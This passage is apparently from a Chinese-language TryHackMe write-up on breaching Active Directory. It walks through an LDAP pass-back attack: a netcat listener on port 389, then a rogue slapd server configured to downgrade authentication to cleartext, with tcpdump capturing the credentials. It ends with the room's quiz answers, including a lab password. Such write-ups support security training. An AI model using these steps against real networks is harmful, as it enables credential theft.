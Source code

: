 开389端口的监听

```
┌──(root💀kali)-[~/tryhackme/BreachingActiveDireectory]
└─# nc -lvp 389  
listening on [any] 389 ...
10.200.32.201: inverse host lookup failed: Host name lookup failure
connect to [10.50.29.30] from (UNKNOWN) [10.200.32.201] 62604
0�Dc�;

x�
  objectclass0�supportedCapabilities

```

显示打印机已经向kali回传ldap验证，但是用nc并不能完全接收回传的凭据信息，需要伪造一个ldap服务器

安装
```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

本地新建一个配置文件：olcSaslSecProps.ldif
```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

执行
```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

执行
```
sudo tcpdump -SX -i eth0 tcp port 389
```



> What type of attack can be performed against LDAP Authentication systems not commonly found against Windows Authentication systems?

> LDAP Pass-back Attack

> What two authentication mechanisms do we allow on our rogue LDAP server to downgrade the authentication and make it clear text?

> LOGIN,PLAIN

> What is the password associated with the svcLDAP account?

> tryhackmeldappass1@



# Task 5  Authentication Relays
